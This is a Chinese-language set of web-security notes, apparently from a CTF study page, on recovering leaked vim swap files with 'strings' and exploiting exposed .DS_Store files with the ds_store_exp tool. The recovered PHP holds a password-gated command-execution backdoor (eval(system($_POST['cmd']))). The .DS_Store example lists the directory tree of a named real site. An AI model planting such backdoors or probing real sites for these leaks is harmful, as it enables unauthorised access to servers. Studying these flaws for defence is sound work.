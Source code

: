 1. 敏感信息泄露  
  
1. 数据库账户和密码泄露  
  
### 利用  
  
进行vim -r  
或者strings  
进行文件恢复  
```
strings .index.php.swp 
b0VIM 9.0
kali
s1rius
/d/CTF/LitCTF/vim/index.php
utf-8
U3210
#"! 
</body>
    </main>
        </div>
            ?>
            }
                eval(system($_POST['cmd']));
                echo "<p>Oh You got my password!</p>";
            if ($_POST['password'] === base64_encode($password)) {
            echo "<p>can can need Vim </p>";
            $password = "Give_Me_Your_Flag";
            error_reporting(0);
```  
  
.DS_Store文件泄漏漏洞  
### 简介  
  
它本是 macOS 系统自动生成的文件，但一旦出现在 Web 根目录并被访问，攻击者可能借此列目录、发现隐藏文件、下载敏感内容，甚至进一步入侵服务器。  
### 危害  
1. 目录结构泄露  
  
1. 发现敏感文件  
  
### 利用  
```
工具下载:https://github.com/lijiejie/ds_store_exp
```  
```
hd.zj.qq.com/
└── themes
    └── galaxyw
        ├── app
        │   └── css
        │       └── style.min.css
        ├── cityData.min.js
        ├── images
        │   └── img
        │       ├── bg-hd.png
        │       ├── bg-item-activity.png
        │       ├── bg-masker-pop.png
        │       ├── btn-bm.png
        │       ├── btn-login-qq.png
        │       ├── btn-login-wx.png
        │       ├── ico-add-pic.png
        │       ├── ico-address.png
        │       ├── ico-bm.png
        │       ├── ico-duration-time.png
        │       ├── ico-pop-close.png
```